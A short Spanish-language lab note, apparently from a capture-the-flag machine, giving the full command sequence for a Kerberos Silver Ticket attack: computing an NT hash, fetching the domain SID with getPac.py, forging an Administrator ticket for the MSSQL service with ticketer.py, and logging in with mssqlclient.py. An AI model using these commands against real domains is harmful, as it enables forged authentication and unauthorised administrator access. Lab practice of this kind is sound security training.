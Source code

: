 
# RECOLECCIÓN DE DATOS NECESARIOS
**PARA EFECTUAR ESTE ATAQUE NECESITAMOS UN USUARIO, CONTRASEÑA Y DOMINIO PRINCIPALMENTE**
### HASH NT
```shell
#PONER AQUÍ LA CONTRASEÑA.
https://codebeautify.org/ntlm-hash-generator

#TRANSFORMARLO A MINUSCULA
echo 'B999A16500B87D17EC7F2E2A68778F05' | tr '[A-Z]' '[a-z]'

#DOMAIN SID
getPac.py scrm.local/ksimpson:ksimpson -targetUser Administrator
	--> S-1-5-21-2743207045-1827831105-2542523200

#EFECTUAMOS EL ATAQUE
ticketer.py -spn MSSQLSvc/dc1.scrm.local -domain-sid S-1-5-21-2743207045-1827831105-2542523200 -dc-ip 10.10.11.168 -nthash b999a16500b87d17ec7f2e2a68778f05 Administrator -domain scrm.local

#GUARDAMOS LA VARIABLE
export KRB5CCNAME=Administrator.ccache

#PROBAMOS CON MSSQL
mssqlclient.py dc1.scrm.local -k
SQL (SCRM\administrator  dbo@master)> 
```